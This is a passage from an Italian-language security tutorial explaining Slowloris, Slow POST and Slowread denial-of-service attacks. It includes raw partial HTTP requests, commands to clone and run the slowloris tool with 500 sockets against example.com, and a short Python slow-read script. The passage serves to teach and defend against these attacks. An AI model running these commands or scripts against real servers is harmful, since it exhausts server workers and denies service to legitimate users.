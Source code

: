 ### 17.2.2 - Slowloris Attack

**Concetto:** Mantiene **connessioni aperte** il più a lungo possibile, esaurendo i worker del server.

**Come funziona:**
```
1. Client apre connessione HTTP
2. Invia header parziali lentamente:

   POST /upload HTTP/1.1\r\n
   Host: example.com\r\n
   Content-Length: 1000000\r\n
   \r\n
   [invia 1 byte ogni 10 secondi]

3. Server aspetta header completi → connection rimane aperta
4. Ripeti con 1000 connessioni
5. Server esaurisce worker disponibili
6. Nuovi utenti legittimi: connection refused
```

**Tool slowloris:**
```bash
# Install
git clone https://github.com/gkbrk/slowloris.git
cd slowloris

# Run attack (SOLO per test etici!)
python3 slowloris.py example.com -s 500

# -s 500: 500 socket simultanei
# Ogni socket invia header lentamente
```

**Variante - Slow POST:**
```
POST /upload HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 1000000

data=[invia 1 byte ogni 5 secondi]

→ Server attende body completo
→ Connessione bloccata per minuti/ore
```

### 17.2.3 - Slowread Attack

**Concetto:** Client **riceve dati lentamente**, bloccando risposta server.

```python
import socket
import time

# Connetti a server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('example.com', 80))

# Invia richiesta normale
s.send(b'GET /large-file.zip HTTP/1.1\r\nHost: example.com\r\n\r\n')

# Leggi 1 byte alla volta lentamente
while True:
    data = s.recv(1)  # Solo 1 byte
    time.sleep(10)     # Aspetta 10 secondi
```